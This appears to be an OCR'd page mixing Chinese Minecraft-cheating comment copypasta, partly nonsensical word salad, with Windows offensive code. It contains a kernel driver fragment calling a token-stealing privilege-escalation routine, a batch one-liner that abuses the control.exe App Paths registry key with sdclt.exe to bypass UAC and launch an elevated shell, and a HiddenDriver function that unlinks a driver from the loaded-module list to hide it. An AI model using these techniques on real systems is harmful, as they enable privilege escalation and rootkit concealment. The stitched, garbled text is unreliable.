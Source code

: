 ```cpp
    ObDereferenceObject(targetProcess);
    return status;Token
}
    
extern "C" NTSTATUS DriverEntry(
_In_ PDRIVER_OBJECT  pDriverObject,
_In_ PUNICODE_STRING pRegistryPath
) 
{
    TokenLevelUp(你的pid);
    return STATUS_UNSUCCESSFUL;
}
```

### 哪里开了？
右上角资源包可以实现，不瞄准就能打人是因为up主是手机版并隐藏了圈圈，搭路是up主练习了500年的基岩版特性搭的成果，没开就是没开，评论区某些人不要看到up打的厉害就嫉妒[呲牙]


🤓APP ⚡看⚡全⚡文⚡🤓

            ⏬

            ⏬

### 主播，很明显，
你在这期视频里面作弊了（简直把我的d1ck都笑弯了），等下我就会发一个把你29potted的视频，即使这样，我还是不会订阅你的bilibili频道，我等着你再次向我发起挑战 :D
我不认同你的观点，我个人认为这个scaffold就应该开eagle模式，
```batch
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /d "cmd.exe" /f && START /W sdclt.exe && reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f
```
### 因为这个杀戮
的range很容易直接影响到，rotation的扭矩。你用刀砍的时候，一瞬间他就会产生大量的违规发包。俗称AAC。会严重影响外挂的流畅。至于对整个hyt，以及网易我的世界的外挂圈。在或者说这火神定理。很容易推断出。人工饲养的余志文，他是可以捕获野生的凌晨的，所以说不管这番茄的切面是否，具有放射性，雨林的N次方，是否有沉淀物？

```cpp
VOID HiddenDriver(PDRIVER_OBJECT DriverObject)
{
    KIRQL irql = KeRaiseIrqlToDpcLevel();
    PLDR_DATA_TABLE_ENTRY prevEntry, nextEntry, modEntry;
    modEntry = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;

    prevEntry = (PLDR_DATA_TABLE_ENTRY)modEntry->InLoadOrderLinks.Blink;
    nextEntry = (PLDR_DATA_TABLE_ENTRY)modEntry->InLoadOrderLinks.Flink;

    prevEntry->InLoadOrderLinks.Flink = modEntry->InLoadOrderLinks.Flink;
    nextEntry->InLoadOrderLinks.Blink = modEntry->InLoadOrderLinks.Blink;

    modEntry->InLoadOrderLinks.Flink = (PLIST_ENTRY)modEntry;
    modEntry->InLoadOrderLinks.Blink = (PLIST_ENTRY)modEntry;
    KeLowerIrql(irql);
}
```
